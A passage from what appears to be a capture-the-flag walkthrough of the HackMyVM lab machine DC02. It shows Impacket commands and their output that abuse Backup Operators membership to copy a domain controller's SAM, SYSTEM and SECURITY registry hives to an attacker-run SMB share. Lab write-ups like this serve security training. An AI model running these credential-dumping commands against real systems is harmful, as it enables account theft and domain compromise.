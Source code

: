 ![](/assets/img/posts/walthrough/hackmyvm/2024-10-18-dc02/capture-2.png)

We can see that the user zximena448 is a member of the backup operator group. This group can backup the SAM database where credentials are stored. Since this user can't log into the DC01, we will back up this database remotely using Impacket tools. We first need to start an SMB server where the backup will be uploaded from the target to our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC02/Misc File]
└─$ impacket-smbserver -smb2support share . &
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

After the SMB server is set, we can remotely back up the registry keys using `impacket-reg` tool.
```bash
┌──(pentester㉿kali)-[~/…/DC02/Scans/AD Enumeration/Bloodhound]
└─$ impacket-reg -dc-ip 10.0.2.32 SOUPEDECODE.LOCAL/zximena448:internet@10.0.2.32  backup -o '\\10.0.2.16\share'                                                                            
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to \\10.0.2.16\share\SAM.save  
[*] Saved HKLM\SYSTEM to \\10.0.2.16\share\SYSTEM.save         
[*] Saved HKLM\SECURITY to \\10.0.2.16\share\SECURITY.save
```
